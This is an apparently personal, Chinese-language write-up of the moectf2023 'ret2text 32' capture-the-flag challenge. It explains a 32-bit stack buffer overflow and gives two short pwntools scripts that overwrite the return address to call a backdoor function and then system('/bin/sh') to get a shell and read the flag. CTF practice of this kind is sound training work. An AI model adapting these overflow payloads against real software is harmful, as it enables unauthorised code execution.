 ```yaml
---
title: moectf2023 - ret2text 32
date: 2023/9/23 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过利用缓冲区溢出攻击，成功调用`system()`函数执行`/bin/sh`获取flag。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了32位~~

## 解题思路

观察vuln函数里面输入一个数，并其后从输入中获取对应字节数 ~~%d个？随便打~~  
观察.text段，存在`b4ckdoor`函数，但是执行echo hi？？

显然，在第一步的exp中，只是跳转到该函数是没用的  
~~进一步探索，发现程序中system读取ebx寄存器中的内容  
而程序中存在`pop ebx; ret;`和`/bin/sh`~~  
先后压栈`system()`和`/bin/sh`即可  
再次发起exp

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x0804928c)) # Addr of ba4kdoor
sh.interactive()
```

成功打印出`hi!`！但是没有flag

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x080492a9) + p32(0x0804c02c)) # Addr of system & /bin/sh
sh.interactive()
```

> 做到这里的时候是0:09，网站打不开了，不会还有宵禁吧？明日再战
>
> 后记：真的有宵禁，12点后对外网关闭

再次运行，`cat flag`，得到flag

Done.
